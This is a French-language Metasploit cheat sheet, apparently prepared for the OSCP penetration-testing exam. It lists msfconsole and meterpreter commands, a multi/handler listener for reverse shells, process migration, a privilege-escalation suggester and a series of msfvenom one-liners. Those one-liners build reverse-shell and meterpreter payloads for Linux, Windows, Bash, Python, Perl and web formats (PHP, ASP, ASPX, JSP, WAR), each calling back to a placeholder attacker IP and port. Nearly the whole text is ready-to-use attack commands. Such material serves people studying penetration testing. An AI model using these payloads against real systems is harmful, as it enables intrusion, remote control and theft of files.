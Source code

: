 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/dd2b83bc-ab96-45e4-83c9-b7c38e9dcf98" height="180">

**Lancer nmap dans metasploit:**  
msf5 > db_nmap -A [IP]  
Il est possible faire des traitement sur les résultats du nmap.  
Par exemple la commande service donne tout les services détectés par nmap:  
msf5 > service [IP]  

**Rechercher une vulnérabilité:**  
msf5 > search [service]  

**Utiliser un module:**  
msf5 > use [/nom/du/script]  

**Voir les infos du module:**  
msf5 exploit(nom/du/script) > show info  

**Modifier un paramètre (LHOST, LPORT …):**  
msf5 exploit(nom/du/script) > set [PARAMETRE] [VARIABLE]  

**Lancer le script:**  
msf5 exploit(nom/du/script) > run  

**Pour Ouvrir un port en écoute:**  
msf5 > use exploit/multi/handler  
msf5 exploit(multi/handler) > set lhost [IP]  
msf5 exploit(multi/handler) > set lport [PORT]  
msf5 exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp (liste des payload avec show payload)  
msf5 exploit(multi/handler) > run  

## Commande dans le meterpreter:  
**shell : **obtenir un shell  
**getuid :** Obtenir le nom de l'utilisateur qui execute le shell  
**sysinfo :** Obtenir des information sur le systeme et sur le meterpreter  
**upload :** upload un fichier via le metterpreter  
**download :** download un fichier via le metterpreter  
**lls /lcd :** lister et changer de repertoire en local quand un metterpreter est ouvert  
**backgroud :** mettre le metterpreter en backgroud  

## Migrer de processus:  
Si le metterpreter n'est pas stable il faut migrer de processus  
En utilisant un module POST : post/windows/manage/migrate  
ou alors avec la commande ps et migrate:  
meterpreter > ps  
meterpreter > migrate [PID]  

## Utilisation de modules de POST exploitation:  
post/multi/recon/local_exploit_suggester --> Liste les faille probable pour l'elevation de privilège sur windows  

## Générer des payloads avec msfvenom:  
**Linux:**  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > file.elf  

**Windows :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > file.exe  

**Pour Bash :**  
msfvenom -p cmd/unix/reverse_bash LHOST=[IP]LPORT=[PORT] -f raw > file.sh  

**Pour Python:**  
msfvenom -p cmd/unix/reverse_python LHOST=[IP] LPORT=[PORT] -f raw > file.py  

**Pour Perl :**  
msfvenom -p cmd/unix/reverse_perl LHOST=[IP] LPORT=[PORT] -f raw > file.pl  

**Générer un fichier .php :**  
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > file.php  

**Générer un fichier.asp :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f asp > file.asp  

**Générer un fichier .jsp :**  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > file.jsp  

**Générer un fichier .aspx :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f aspx > file.aspx  

**Générer un fichier .war:**  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > file.war  

